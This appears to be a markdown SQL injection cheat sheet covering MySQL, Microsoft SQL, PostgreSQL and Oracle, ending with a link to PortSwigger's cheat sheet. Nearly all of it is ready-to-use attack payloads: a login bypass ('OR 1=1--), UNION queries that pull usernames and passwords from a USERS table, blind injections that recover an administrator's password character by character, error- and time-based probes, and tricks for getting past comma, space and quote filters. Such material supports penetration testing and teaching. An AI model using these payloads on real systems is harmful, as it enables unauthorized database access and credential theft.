 ### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```
### Retrieving Database Version
```
# mysql / mariadb and Microsoft SQL
select @@version;

# postgreSQL
select version()

# oracle
select banner from v$version
select version from v$instance

```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL

```
# Identify password length
'AND (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>1)='a

# Identify one password character at a time
# This example depends on differences in the return data.
'AND (SELECT ASCII(SUBSTRING((SELECT password from users WHERE username='administrator'),<character position>,1)))=<ascii decimal value>--
# For each substring character (1,1; then 2,1; 3,1; etc...) cycle through all the decimal values for printable characters (33-126)

# for oracle, use SUBSTR instead of SUBSTRING

#These conditional queries depend on triggering error messages.

#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual  

#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END  

#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END  

#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')  

```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
### Bypassing Comma Restrictions
```
SELECT 1,2,3,4 FROM TABLE;    UNION SELECT * from ((SELECT 1 FROM TABLE)a JOIN (SELECT 2 FROM TABLE)b JOIN (SELECT 3 FROM TABLE)c JOIN (SELECT 4 FROM TABLE)d)--
```
### Bypassing Space Restrictions  
```
# mysql
SELECT/**/1;

# postgreSQL
/**/

```
### Bypassing Quote Restrictions  
```
# postgres  
SELECT 'TEST'; # example
SELECT $$TEST$$;
SELECT $TAG$TEST$TAG$;
SELECT CHR(84) || CHR(69) || CHR (83)  || CHR (84);
```
# Time Delays
```
# mysql / mariadb 
sleep(10)

# Microsoft SQL 
WAITFOR DELAY '0:0:10'

# postgreSQL
SELECT pg_sleep(10)

# oracle
dbms_pipe.receive_message(('a'),10)
```

### SQLi Cheat Sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
